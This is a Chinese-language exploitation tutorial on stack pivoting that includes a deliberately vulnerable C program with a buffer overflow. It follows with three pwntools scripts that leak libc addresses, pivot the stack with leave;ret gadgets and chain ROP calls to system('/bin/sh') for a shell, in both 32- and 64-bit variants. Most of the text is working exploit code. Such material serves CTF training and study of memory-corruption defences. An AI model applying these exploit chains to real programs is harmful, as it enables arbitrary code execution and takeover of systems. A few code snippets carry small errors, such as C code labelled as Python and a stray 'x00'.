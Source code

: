 ## 栈迁移

栈迁移主要就是为了解决栈溢出空间大小不足的问题

通过栈迁移可以把fake_ebp-4(32位的情况，如果是64位就是fake_rbp-8)通过着这种方法是的运行两次leave可以把esp的数据修改为fake_ebp，从而完成栈迁移这样就是在溢出不住的情况下来完整构造rop链

## 栈迁移到数据填充段

实际步骤

```tex
leave -> mov esp,ebp;pop ebp;

ret;

第一次leave;ret;会把栈上的ebp->ebp寄存器

第二次leave;ret;相当于寄存器的值->esp寄存器

并且esp+=4
```

使用这个方法的主要一点是要获取到buf的实际栈地址

因此我们要使用这个方法就要泄露出当时buf的空间来使得我们可以进行迁移

因此我们这里使用一个程序进行构造

```python
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void vuln() {
    char buf[0x100];
    printf("buf addr: %p\n", buf);
    puts("please input:");
    read(0, buf, 0x300);
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    vuln();

    return 0;
}

```

这个程序就是使用了一个格式化字符串来返回一个buf地址使得我们可以使用同时在这里满足了这个填充段数据的迁移因此我们可以使用栈迁移的方式来使用

脚本

```python
from pwn import *
context.log_level='debug'
io = process("./test")
libc = ELF("./libc-2.31.so")
elf = ELF("./test")

io.recvuntil('buf addr: ')
buf_addr = int(io.recvline(False),16)
log.info("buf_add: "+hex(buf_addr))

payload = b''
payload += p64(0x0401293)#rdi
payload += p64(elf.got['puts']) # puts@got
payload += p64(0x401070) # puts@plt
payload += p64(elf.sym['vuln'])
payload = payload.ljust(0x100, b'\x00')
payload += p64(buf_addr - 8)
payload += p64(elf.search(asm('leave; ret;'), executable=True).__next__())

gdb.attach(io)
io.sendlineafter("please input:",payload)

# pause()
# gdb.attach(io)
io.recv()
libc_address = u64(io.recv(6).ljust(8,b'\x00'))-libc.symbols['puts']
log.info("libc_base: " + hex(libc_address))

# payload = b''
# payload += p64(elf.search(asm('pop rdi; ret;'), executable=True).next())
# payload += p64(libc.search("/bin/sh").__next__()) # puts@got
# payload += p64(libc.sym['system']) # puts@plt
# payload = payload.ljust(0x100, 'x00')
# payload += p64(buf_addr - 8)
# payload += p64(elf.search(asm('leave; ret;'), executable=True).__next__())
# io.sendafter("please input:n", payload)

io.interactive()
```

同样32位也是用同样的方法

exp

```python
from pwn import *


context.log_level='debug'
io = process("./test")
elf = ELF("./test")
libc = ELF("./libc-2.31.so")

io.recvuntil('buf addr: ')
buf_addr = int(io.recvline(False),16)
log.info("buf_add: "+hex(buf_addr))

payload = b''
payload += p32(elf.plt['puts'])
payload += p32(elf.sym['vuln'])
payload += p32(elf.got['puts'])


payload = payload.ljust(0x108,b'\x00')
payload += p32(buf_addr-4)
payload += p32(elf.search(asm('leave; ret;'),executable=True).__next__())
# gdb.attach(io,'c')ni

# pause()

io.sendlineafter("please input:",payload)
# gdb.attach(io)

io.recv()

libc.address= u32(io.recv(4))-libc.symbols['puts']
# gdb.attach(io)
log.info('libc_addr'+hex(libc.address))
system = libc.sym['system']

payload = b''
payload += p32(libc.sym['system'])
payload += b'aaaa'
payload += p32(libc.search(b"/bin/sh").__next__())

payload = payload.ljust(0x108, b'\x00')
payload += p32(buf_addr - 4)
payload += p32(elf.search(asm('leave; ret;'), executable=True).__next__())

io.sendlineafter("please input:",payload)
io.interactive()
```

## 其他地址段的栈迁移

这里主要是使用read函数把rop填充到其他地址上

![image-20250331190655385](./../images/image-20250331190655385.png)

调用read将函数写到rop空闲的地址中，然后将栈迁移到该地址执行该rop

这里返回到read函数时会有push ebp 保存ebp值，read函数中的leave；ret不会对栈迁移有影响，因此还要再加要给leave；ret

使用的主要方法就是构造一个read函数来进行栈迁移

exp

```python
from pwn import *
io = process('./test')
elf = ELF('./test')
libc = ELF('./libc-2.31.so')
context.log_level='debug'

payload = b'a'*(0x108)
payload += p64(0x0401253)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.sym['vuln'])

io.sendafter('please input:\n',payload)
# gdb.attach(io)
# io.recv()
libc.address = u64(io.recv(6).ljust(8,b'\x00'))-libc.sym['puts']
log.info("puts_addr: "+hex(libc.address))

payload = b'a'*(0x108)
payload += p64(0x0401253)
payload += p64(libc.sym['environ'])        #可以泄漏栈地址
payload += p64(libc.sym['puts'])
payload += p64(elf.sym['vuln'])
io.sendafter('please input:\n',payload)
stack = u64(io.recvuntil(b'\x7f').ljust(8,b'\x00'))
log.info("stack: "+hex(stack))
# gdb.attach(io)
# pause()
payload =b'a'*0x100
payload += p64(stack-0x500-8)
payload += p64(0x022aa2+libc.address)
payload += p64(0)
payload += p64(0x02337e+libc.address)
payload += p64(stack - 0x500)
payload += p64(0x001b9a+libc.address)
payload += p64(0x100)
payload += p64(libc.sym['read'])
payload += p64(libc.search(asm('leave; ret;'), executable=True).__next__())
io.sendafter('please input:\n',payload)

sleep(1)
payload=b''
payload += p64(0x0401253)            #rdi
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym['system'])

io.sendline(payload)

io.interactive()
```

## 栈迁移都相对地址

leave；ret；->好处是迁移到特定地址

add esp，xxx;pop reg ;pop reg;ret;->add esp,xxx;ret;

